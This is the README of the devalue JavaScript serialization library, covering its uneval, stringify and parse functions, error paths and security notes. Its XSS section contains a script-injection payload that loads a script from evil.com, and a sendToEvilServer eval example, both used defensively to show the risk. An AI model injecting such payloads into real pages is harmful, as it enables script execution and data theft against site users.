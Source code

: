 # devalue

Like `JSON.stringify`, but handles

- cyclical references (`obj.self = obj`)
- repeated references (`[value, value]`)
- `undefined`, `Infinity`, `NaN`, `-0`
- regular expressions
- dates
- `Map` and `Set`
- `BigInt`

Try it out on [runkit.com](https://npm.runkit.com/devalue).

## Goals:

- Performance
- Security (see [XSS mitigation](#xss-mitigation))
- Compact output

## Non-goals:

- Human-readable output
- Stringifying functions or non-POJOs

## Usage

There are two ways to use `devalue`:

### `uneval`

This function takes a JavaScript value and returns the JavaScript code to create an equivalent value — sort of like `eval` in reverse:

```js
import { uneval } from 'devalue';

let obj = { message: 'hello' };
uneval(obj); // '{message:"hello"}'

obj.self = obj;
uneval(obj); // '(function(a){a.message="hello";a.self=a;return a}({}))'
```

Use `uneval` when you want the most compact possible output and don't want to include any code for parsing the serialized value.

### `stringify` and `parse`

These two functions are analogous to `JSON.stringify` and `JSON.parse`:

```js
import { stringify, parse } from 'devalue';

let obj = { message: 'hello' };

let stringified = stringify(obj); // '[{"message":1},"hello"]'
parse(stringified); // { message: 'hello' }

obj.self = obj;

stringified = stringify(obj); // '[{"message":1,"self":0},"hello"]'
parse(stringified); // { message: 'hello', self: [Circular] }
```

Use `stringify` and `parse` when evaluating JavaScript isn't an option.

## Error handling

If `uneval` or `stringify` encounters a function or a non-POJO, it will throw an error. You can find where in the input data the offending value lives by inspecting `error.path`:

```js
try {
  const map = new Map();
  map.set('key', function invalid() {});

  uneval({
    object: {
      array: [map]
    }
  });
} catch (e) {
  console.log(e.path); // '.object.array[0].get("key")'
}
```

## XSS mitigation

Say you're server-rendering a page and want to serialize some state, which could include user input. `JSON.stringify` doesn't protect against XSS attacks:

```js
const state = {
  userinput: `</script><script src='https://evil.com/mwahaha.js'>`
};

const template = `
<script>
  // NEVER DO THIS
  var preloaded = ${JSON.stringify(state)};
</script>`;
```

Which would result in this:

```html
<script>
  // NEVER DO THIS
  var preloaded = {"userinput":"
</script>
<script src="https://evil.com/mwahaha.js">
  "};
</script>
```

Using `uneval` or `stringify`, we're protected against that attack:

```js
const template = `
<script>
  var preloaded = ${uneval(state)};
</script>`;
```

```html
<script>
  var preloaded = {
    userinput:
      "\\u003C\\u002Fscript\\u003E\\u003Cscript src='https:\\u002F\\u002Fevil.com\\u002Fmwahaha.js'\\u003E"
  };
</script>
```

This, along with the fact that `uneval` and `stringify` bail on functions and non-POJOs, stops attackers from executing arbitrary code. Strings generated by `uneval` can be safely deserialized with `eval` or `new Function`:

```js
const value = (0, eval)('(' + str + ')');
```

## Other security considerations

While `uneval` prevents the XSS vulnerability shown above, meaning you can use it to send data from server to client, **you should not send user data from client to server** using the same method. Since it has to be evaluated, an attacker that successfully submitted data that bypassed `uneval` would have access to your system.

When using `eval`, ensure that you call it _indirectly_ so that the evaluated code doesn't have access to the surrounding scope:

```js
{
  const sensitiveData = 'Setec Astronomy';
  eval('sendToEvilServer(sensitiveData)'); // pwned :(
  (0, eval)('sendToEvilServer(sensitiveData)'); // nice try, evildoer!
}
```

Using `new Function(code)` is akin to using indirect eval.

## See also

- [lave](https://github.com/jed/lave) by Jed Schmidt
- [arson](https://github.com/benjamn/arson) by Ben Newman
- [tosource](https://github.com/marcello3d/node-tosource) by Marcello Bastéa-Forte
- [serialize-javascript](https://github.com/yahoo/serialize-javascript) by Eric Ferraiuolo
- [jsesc](https://github.com/mathiasbynens/jsesc) by Mathias Bynens
- [superjson](https://github.com/blitz-js/superjson) by Blitz

## License

[MIT](LICENSE)
